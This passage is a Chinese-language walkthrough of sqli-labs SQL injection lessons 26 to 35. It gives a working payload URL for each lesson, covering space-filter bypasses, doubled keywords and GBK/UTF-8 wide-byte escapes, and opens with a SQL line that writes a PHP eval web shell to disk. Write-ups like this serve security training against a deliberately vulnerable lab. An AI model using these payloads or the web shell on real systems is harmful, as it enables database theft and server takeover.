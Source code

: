 ````select “<?php @eval($_POST[‘giantbranch’]);?>” into outfile “XXX\test.php” ````当这里要获取到网站的在系统中的具体路径（绝对路径）

### 第二十六题 
空格被注释掉了 但是可以用%a0来过滤呀 /**/应该也可以 不过在a中用不了。。。而且，，第二十六题吧，空格我发现没有被过滤貌似
http://127.0.0.1/sqllib/Less-26a/?id=100&#8242;)union%a0select%a01,user(),(‘3

### 第二十六a题
http://127.0.0.1/sqllib/Less-26a/?id=100’)union%a0select%a01,user(),(‘3

### 第二十七题
大小写以及重复都可以绕过限制在这里提一下 最后的’1’=’1 闭合可以用’1直接闭合
http://202.206.96.155:8081/sqli-labs/Less-27/?id=999’%a0ununionion%a0SelEcT%a01,2,3%a0and%a0’1’=’1

### 第二十七a
提示是双引号
http://202.206.96.155:8081/sqli-labs/Less-27a/?id=999″%a0ununionion%a0SelEcT%a01,2,3%a0and%a0″1

### 第二十八
有点让人无语，说好的union selsce过滤呢，，，
http://202.206.96.155:8081/sqli-labs/Less-28/?id=100&#8217;)union%a0select%a01,user(),(‘3

### 第二十八a
这两个题目有什么不同麽，，，，
http://202.206.96.155:8081/sqli-labs/Less-28a/?id=100&#8217;)union%a0select%a01,user(),(‘3

### 第二十九
难道这个是万能的麽，，，
http://202.206.96.155:8081/sqli-labs/Less-29/?id=1&#8217; and 1=(select if(ascii(substr(database(),1,1))>0,1,2)) and ‘1’=’1

### 第三十题
感觉都是重复啦
http://202.206.96.155:8081/sqli-labs/Less-30/?id=100&#8243; union select 1,2,3 and “1”=”1

### 第三十一题
上一题的基础上加个括号而已
http://202.206.96.155:8081/sqli-labs/Less-31/?id=100&#8243;) union select 1,2,3 and (“1″=”1

### 第三十二题
看源码可知 将单引号与双引号过滤了以及\ 过滤方法是加入\\
```
$string = preg_replace(‘/’. preg_quote(‘\\’) .’/’, “\\\\\\”, $string); //escape any backslash
$string = preg_replace(‘/\’/i’, ‘\\\”, $string); //escape single quote with a backslash
$string = preg_replace(‘/\”/’, “\\\””, $string); //escape double quote with a backslash
```

这里有一个很好的知识点：GBK的宽字节注入：%df 与 %5c 连在一起组合成 運 单引号依然在，成功闭合 用%a1也可以
paylload为：http://202.206.96.155:8081/sqli-labs/Less-32/?id=-3%df’ union select 1,2,3 –+

### 第三十三题
同上 只不过是换了一种加”\”的方式addslashes()

### 第三十四题
utf-8相关的宽字节注入 錦”这个字，它的utf-8编码是0xe98ca6，它的gbk编码是0xe55c。当我们的錦被iconv从utf-8转换成gbk后，变成了%e5%5c，而后面的’被addslashes变成了%5c%27，这样组合起来就是%e5%5c%5c%27，两个%5c就是\\，正好把反斜杠转义了，导致’逃逸出单引号，产生注入。
payload为：uname=a錦%27union select 1,2#&passwd=a&submit=Submit

### 第三十五题
去看源码，造成这么简单肯定是由原因的
```
http://202.206.96.155:8081/sqli-labs/Less-35/?id=-1 union select 1,2,3–+
if(isset($_GET[‘id’]))
{
$id=check_addslashes($_GET[‘id’]);
````